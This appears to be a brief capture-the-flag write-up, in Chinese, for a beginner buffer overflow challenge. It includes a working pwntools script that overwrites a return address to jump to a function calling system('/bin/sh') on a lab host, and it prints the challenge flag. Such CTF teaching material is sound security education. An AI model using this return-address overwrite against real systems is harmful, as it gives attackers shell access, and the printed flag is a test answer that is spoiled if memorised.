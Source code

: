 發現有一個 magic 函式，裡面有`system('/bin/sh')`
利用 BOF 把 main 裡面的 ret 位置 蓋成 magic 的位置即可

```python=
from pwn import *

p = remote('10.140.0.8', 11111)
#p = process('./pwn1')
offset = 'a' * 16
target_addr = 0x04005fb
payload = offset + p64(target_addr)
p.sendline(payload)
p.interactive()
```
- `EOF{B0f_for_Infants}`
